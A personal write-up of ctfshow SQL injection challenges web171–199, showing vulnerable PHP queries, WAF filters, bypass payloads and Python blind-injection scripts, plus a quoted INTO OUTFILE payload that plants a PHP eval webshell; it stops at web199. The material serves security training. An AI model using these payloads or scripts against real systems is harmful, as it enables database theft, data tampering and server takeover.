


A while ago I learned some MySQL, then found that ctfshow has nearly 150 SQL injection challenges, arranged fairly progressively, so recently I've been doing SQL injection from scratch.

## Injection without filtering

### web171

```sql
-1' or id = '26
```

### web172

Query statement:

```php
$sql = "SELECT username, password FROM users WHERE username != 'flag' AND id = '".$_GET['id']."' LIMIT 1;";
```

Return logic:

```php
		 if($row->username!=='flag'){
      $ret['msg']='查询成功';
    }
```

The SELECT statements in a UNION must return the same number of columns, with compatible types in corresponding positions. UNION combines their results into one result set.

```sql
-1' union select id,password from ctfshow_user2 where username = 'flag
```

### web173

Query statement:

```php
$sql = "select id,username,password from ctfshow_user2 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

Return logic:

```php
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

This time all three fields of the union query exist, so we can't bypass username the way we did in web172, but it seems we can hex-encode the username to bypass the filtering of the username characters in the query result.

```sql
-1' union select b.id,hex(b.username),b.password from ctfshow_user3 as b where b.username = 'flag
```

### web174

Query statement:

```php
$sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

Return logic:

```php
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

This time both flag and digits are banned, so we can just brute-force it with the replace function, nesting it to replace all digits with characters.

```sql
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(b.password,"1","!"),"2","@"),"3","#"),"4","$"),"5","%"),"6","^"),"7","&"),"8","*"),"9","("),"0",")")
```

So the final payload is:

```sql
-1' union select 'A',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(b.password,"1","!"),"2","@"),"3","#"),"4","$"),"5","%"),"6","^"),"7","&"),"8","*"),"9","("),"0",")") from ctfshow_user4 as b where b.username = 'flag
```

But I found that submitting directly on the web page kept failing for no apparent reason; after capturing the request I found the GET parameter was being truncated, so I used Burp Suite to encode and send the request to get the final flag.



### web175

Query statement:

```php
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

Return logic:

```php
    if(!preg_match('/[\\x00-\\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

This time the entire ASCII character set is filtered. Looking up the writeups of the pros online, I found some that obtained a shell by writing a file.

```text
-1%27%20union%20select%201,from_base64(%22%50%44%39%77%61%48%41%67%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%7a%38%2b%22)%20into%20outfile%20%27/var/www/html/1.php
```

But for some reason I could never reproduce it, so switching approaches to time-based blind injection, I found the vulnerability.



Since the challenge stated the query statement is as follows, we know the table name is ctfshow_user5, and what we need to brute-force is the password value corresponding to username=flag.

```php
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

So I wrote a script to first brute-force the password length, which came out to 45.

```python
import requests
import urllib3
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/api/v5.php"

headers = {
    "User-Agent": "Mozilla/5.0",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/select-no-waf-5.php",
}

target = "(select password from ctfshow_user5 where username='flag' limit 0,1)"

low = 1
high = 100

while low <= high:

    mid = (low + high) // 2

    payload = f"1' and if(length({target})>{mid},sleep(5),0)-- -"
    url = f"{base}?id={payload}&page=1&limit=10"

    start = time.time()
    requests.get(url, headers=headers, verify=False)
    end = time.time()

    if end - start > 4:
        low = mid + 1
    else:
        high = mid - 1

print("长度为:", low)
```

Then brute-force the password, which gives the flag ctfshow{6a433c74-67b2-44e2-9253-f2d1d51c590e}.

```python
import requests
import urllib3
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/api/v5.php"

headers = {
    "User-Agent": "Mozilla/5.0",
    "X-Requested-With": "XMLHttpRequest",
    "Referer": "https://2b23718e-59f2-4b27-86ec-1324a25e35f0.challenge.ctf.show/select-no-waf-5.php",
}

target = "(select password from ctfshow_user5 where username='flag' limit 0,1)"

length = 45
flag = ""

for pos in range(1, length + 1):
    low = 32
    high = 126

    while low <= high:

        mid = (low + high) // 2

        payload = f"1' and if(ascii(substr({target},{pos},1))>{mid},sleep(3),0)-- -"
        url = f"{base}?id={payload}&page=1&limit=10"

        start = time.time()
        requests.get(url, headers=headers, verify=False)
        end = time.time()

        if end - start > 2.5:
            low = mid + 1
        else:
            high = mid - 1

    char = chr(low)
    flag += char
    print("当前flag:", flag)

print("\\n最终flag:", flag)
```

## Filtered injection

### web176-182

The filtering is all quite simple; one of the following payloads gets through.

```text
-1' or 1=1 --+
'or 1=1%23
'or/**/1=1%23
'or(1=1)%23
'or'1'='1'%23
'or%0a1=1%0a%23
'or%0b1=1%0b%23
'or%0c1=1%0b%23
'or%091=1%09%23
'or'1'='1'--%0c
'or'1'='1'--%01
'||1=1%23
```

### web183

Query statement:

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(pass) from ".$_POST['tableName'].";";
```

Return logic:

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|file|\\=|or|\\x7c|select|and|flag|into/i', $str);
  }
```

Query result:

```php
//返回用户表的记录总数
      $user_count = 0;
```

Use `` ` `` to bypass spaces, then use hackbar to POST:

``tableName=`ctfshow_user`where`pass`like'%25ct%25'`` echoes count 1.

``tableName=`ctfshow_user`where`pass`like'%25ct%25'`` echoes count 0.

Confirming it's a boolean blind injection, I wrote a Python script.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://4883e782-f6a3-4802-b5d8-4128745fd673.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False
    for i in chars:
        payload = f"`ctfshow_user`where`pass`like'{flag}{i}%'"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

At first I wrote chars as `string.ascii_lowercase + string.digits + "-*}"`, and the result came out as `ctfshow{5d9e1448-c72b-4e6a-aa53-b9520d6e11d7*`. Then I suddenly remembered that `_` is also a SQL wildcard, so I had to put `_` after `}` to get the correct result. So the final flag is ctfshow{5d9e1448-c72b-4e6a-aa53-b9520d6e11d7}.

### web184

Query statement:

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

Return logic:

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\x00|\\#|\\x23|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

Query result:

```php
//返回用户表的记录总数
      $user_count = 0;
```

More symbols are banned; time-based blind injection, where, and `` ` `` can't be used, but it seems group by, having, and spaces aren't banned. And from the wildcard problem in the previous challenge, I learned that besides like, regexp (or its alias rlike) is more commonly used for injection. Then double quotes are banned, but I learned that in most cases, as far as the database is concerned, `'abc'` and 0x616263 are equivalent — 0x616263 is treated as string bytes — so we can use hex to bypass the single/double-quote filtering. Trying POST: `tableName=ctfshow_user group by pass having pass regexp(0x63746673686f777b)`, where 0x63746673686f777b is equivalent to `"ctfshow{"`, echoes count 1, so we can write a Python script for boolean blind injection.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://fe73153a-2760-42df-92e8-598dba5b9f4c.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        hex_regexp = "0x" + raw_regexp.encode().hex()

        payload = f"ctfshow_user group by pass having pass regexp({hex_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

Final flag: ctfshow{ca61214f-3428-41f2-9519-f7b568974be9}.

### web185

Query statement:

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

Return logic:

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\x00|\\#|\\x23|[0-9]|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

Query result:

```php
//返回用户表的记录总数
      $user_count = 0;
```

Spaces are still allowed, but compared to the previous challenge, digits are now filtered, so we can't directly reuse the previous approach. But we can construct the same hex encoding as the previous challenge using the concat function and true-based arithmetic, so we can add a function to the previous challenge's script that just turns all the content of the string into true-based arithmetic in ASCII-code form. Hey, this way it seems we can also ignore the single/double-quote filtering and read the flag directly — let's just try it; I only don't know whether too many `true`s will blow it up.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://2cdf629a-2796-4fb6-ba7d-6e152664e8c7.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

def get_payload_no_digits(target_str):
    parts = []
    for char in target_str:
        ascii_val = ord(char)
        true_str = "+".join(["(true)"] * ascii_val)
        parts.append(f"char({true_str})")
    return f"concat({','.join(parts)})"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        true_regexp = get_payload_no_digits(raw_regexp)

        payload = f"ctfshow_user group by pass having pass regexp({true_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

It survived. Final flag: ctfshow{a5053176-6a0d-4745-8b37-ef69401fad62}.

### web186

Query statement:

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ".$_POST['tableName'].";";
```

Return logic:

```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\\*|\\x09|\\x0a|\\x0b|\\x0c|\\0x0d|\\xa0|\\%|\\<|\\>|\\^|\\x00|\\#|\\x23|[0-9]|file|\\=|or|\\x7c|select|and|flag|into|where|\\x26|\\'|\\"|union|\\`|sleep|benchmark/i', $str);
  }
```

Query result:

```php
//返回用户表的记录总数
      $user_count = 0;
```

This time, on top of the previous challenge, `%`, `<`, `>`, and `^` are also filtered, which has no effect on our script from the previous challenge; just change the URL and try it directly.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://ce3b4900-2bdc-411f-9163-b84eafe2076c.challenge.ctf.show/select-waf.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

def get_payload_no_digits(target_str):
    parts = []
    for char in target_str:
        ascii_val = ord(char)
        true_str = "+".join(["(true)"] * ascii_val)
        parts.append(f"char({true_str})")
    return f"concat({','.join(parts)})"

while True:
    found_char = False

    for i in chars:
        raw_regexp = f"{flag}{i}"
        true_regexp = get_payload_no_digits(raw_regexp)

        payload = f"ctfshow_user group by pass having pass regexp({true_regexp})"

        data = {
            'tableName': payload
        }

        try:
            r = requests.post(base, data=data, verify=False)
            r = r.text
            if "user_count = 1" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

Final flag: ctfshow{60067eb1-4c59-4806-85e5-6ab16c3d7726}.

### web187

Query statement:

```php
//拼接sql语句查找指定ID用户
  $sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
```

Return logic:

```php
    $username = $_POST['username'];
    $password = md5($_POST['password'],true);

    //只有admin可以获得flag
    if($username!='admin'){
        $ret['msg']='用户名不存在';
        die(json_encode($ret));
    }
```

The username needs to be admin, and we can only control the value of password. The password is MD5-hashed, and with the second argument set to true it's returned in 16-byte raw binary format. There's a special password: ffifdyop, whose MD5 result is 276f722736c95d99e921722cf9ed621c, and after converting it to a raw string via the ASCII table, the first few bytes become ' or '6…, followed by a string starting with the digit 6, which evaluates to true — so the password is judged to be true.

### web188

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

Return logic:

```php
  //用户名检测
  if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\\(|\\)|\\'|\\"/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==intval($password)){
      $ret['msg']='登陆成功';
      array_push($ret['data'], array('flag'=>$flag));
    }
```

This exploits MySQL's loose typing: since the username to query is flag and the password is in ctfshow{…} format, and the query statement is directly `{$username}` with no single quotes, both flag and ctfshow{…} start with a letter and convert to the number 0, so they can match. Capture the request to get the flag.

### web189

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username}";
```

Return logic:

```php
  //用户名检测
  if(preg_match('/select|and| |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\x26|\\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }
```

Challenge hint: the flag is in the api/index.php file.

Using the previous challenge's payload directly failed, and combined with the hint, I thought to use SQL's load_file function for boolean blind injection. While trying, I found that when username is 0 it returns "wrong password", and when username is 1, 2, or other values it returns "query failed", which shows there's a username starting with a letter. Capturing the request, I found the former returns `{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}` — the Unicode encoding of "wrong password" — while the latter returns `{"code":0,"msg":"\u67e5\u8be2\u5931\u8d25","count":0,"data":[]}`, i.e. "query failed". So I use `\u5bc6\u7801\u9519\u8bef` as the point for judging whether the boolean blind injection succeeded.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://e8c25252-41db-4f01-bbd0-af96fffc80dc.challenge.ctf.show/api/index.php"

chars = string.ascii_lowercase + string.digits + "-}_"

flag = "ctfshow{"

while True:
    found_char = False
    for i in chars:
        data = {
            "username":"if(load_file('/var/www/html/api/index.php')regexp('{0}'),0,1)".format(flag + i),
            'password':0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

At first the script I wrote judged using `if "\u5bc6\u7801\u9519\u8bef" in r` directly, and it never produced a result. Later I realized the Python interpreter automatically decodes this Unicode into Chinese, so naturally it wouldn't match.

Final flag: ctfshow{7a75fe6e-e561-4264-b00e-95df98768ec8}.

## Boolean blind injection

### web190

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
```

It seems we've reached the proper boolean-blind-injection chapter. This time single quotes were added around username, so loose typing can't be used. But trying admin gives "wrong password", trying `admin' and '1' = '1` gives "wrong password", and trying `admin' and '1' = '2` gives "username does not exist", so we can start writing a script for boolean blind injection. But reusing the previous challenge's script directly failed — it seems the table and column names are a problem — so we have to re-brute-force the database name, table name, and column name.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + "-}_"

database = ""

while True:
    found_char = False
    pos = len(database) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr(database(),{0},1)='{1}',1,0)#".format(pos,i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                database += i
                print("当前database：", database)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or database.endswith('}'):
        print("\\n最终database:", database)
        break
```

Final database: ctfshow_web.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = ""

while True:
    found_char = False
    pos = len(table_names) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema='ctfshow_web'),{0},1)='{1}',1,0)#".format(pos,i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                table_names += i
                print("当前table_names：", table_names)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or table_names.endswith('}'):
        print("\\n最终table_names:", table_names)
        break
```

Final table_names: ctfshow_fl0g,ctfshow_user.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = "ctfshow_fl0g"
column_names = ""

while True:
    found_char = False
    pos = len(column_names) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{0},1)='{1}',1,0)#".format(pos, i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                column_names += i
                print("当前column_names：", column_names)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or column_names.endswith('}'):
        print("\\n最终column_names:", column_names)
        break
```

Final column_names: id,f1ag.

```python
import requests
import string
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

base = "https://5ab7c9c4-8d49-4318-bb0c-ad6d6cbdb0fb.challenge.ctf.show/api/"

chars = string.ascii_lowercase + string.digits + ",-}_"

database = "ctfshow_web"
table_names = "ctfshow_fl0g"
column_names = "f1ag"
flag = "ctfshow{"

while True:
    found_char = False
    pos = len(flag) + 1
    for i in chars:
        data = {
            "username": "admin' and if(substr((select f1ag from ctfshow_fl0g),{0},1))='{1}',1,0)#".format(pos, i),
            'password': 0
        }

        try:
            r = requests.post(url=base, data=data, verify=False)
            r = r.text
            if r"\\u5bc6\\u7801\\u9519\\u8bef" in r:
                flag += i
                print("当前flag：", flag)
                found_char = True
                break
        except Exception as e:
            print(f"[!] 请求出错: {e}")

    if not found_char or flag.endswith('}'):
        print("\\n最终flag:", flag)
        break
```

Final flag: ctfshow{9fd4c26e-4fa9-4a4c-9f61-f22a899ae40e}.

### web191

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

ASCII is filtered, so ord can be used instead, but since we didn't use binary search in the previous challenges, we didn't use ASCII either, so the script gets through with just a URL change.

Final flag: ctfshow{714c92ce-b5ec-4c0f-bfcc-ec01917de702}.

### web192

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

Still no effect; gets through directly.

Final flag: ctfshow{5c4d334b-0548-479a-a82d-1c93685c38b4}.

### web193

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

`substr` was now blocked. I found `left` in the SQL documentation and switched to that, only to discover the table name had quietly changed too. Time to enumerate it again.

```python
"username": "admin' and (left((select group_concat(table_name) from information_schema.tables where table_schema=database()),{0})='{1}')#".format(pos,table_names+i)
```

Final table_names: ctfshow_flxg,ctfshow_user.

```python
"username": "admin' and (left((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{0})='{1}')#".format(pos, column_names+i)
```

Final column_names: id,f1ag.

```python
"username": "admin' and (left((select f1ag from ctfshow_flxg),{0})='{1}')#".format(pos, flag+i)
```

Final flag: ctfshow{6fab011d-181d-4a60-a0c2-5c321b8a2ffb}.

### web194

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }
```

left/right are gone; switch to lpad.

```text
mysql> SELECT LPAD('hi',4,'??');
-> '??hi'
mysql> SELECT LPAD('hi',1,'??');
-> 'h'
```

```python
"username": "admin' and (lpad((select f1ag from ctfshow_flxg),{0},'')='{1}')#".format(pos, flag+i)
```

Final flag: ctfshow{1ec300eb-4078-4e1f-a881-2c55ffa04a95}.

## Stacked injection

### web195

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|\\'|\\"|select|union|or|and|\\x26|\\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

The username isn't wrapped in quotes, so loose typing can be used. First trying to set username to 0 shows "wrong password", which means it can be queried, and since `;` isn't filtered, stacked injection is possible. Switch to a DML statement to modify data: just use update+set to set all data in the pass column to 1, then use `` ` `` to wrap identifiers to bypass the banned space. This way `$row[0]==$password` is satisfied, and `$ret['msg']="登陆成功 flag is $flag"` executes to get the flag.

```text
username=0;update`ctfshow_user`set`pass`=1&password=1
username=0&password=1
```

```json
{"code":0,"msg":"\u767b\u9646\u6210\u529f flag is ctfshow{60cb9fdd-fb6c-4194-8ead-cc41f2c71776}","count":0,"data":[]}
```

### web196

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if(preg_match('/ |\\*|\\x09|\\x0a|\\x0b|\\x0c|\\x0d|\\xa0|\\x00|\\#|\\x23|\\'|\\"|select|union|or|and|\\x26|\\x7c|file|into/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if(strlen($username)>16){
    $ret['msg']='用户名不能超过16个字符';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

A length limit was added to username, and the wild part is that the challenge says select is filtered but it actually isn't, so just filling in `-1;select(1)` and 1 makes the SQL query `select pass from ctfshow_user where username = -1;select(1)`. Since there's no data with username -1, the former returns null and the latter returns 1, entering `row[0]`, which makes the if condition true and shows the flag.

### web197

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set//i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

This time select is really banned, but the length limit is gone, so we can just insert our own data.

```sql
0;insert ctfshow_user (username,pass) values(1,2)
```

Then just log in.

### web198

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

drop and create are additionally banned; just reuse the previous challenge's payload to get through.

### web199

Query statement:

```php
  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = {$username};";
```

Return logic:

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
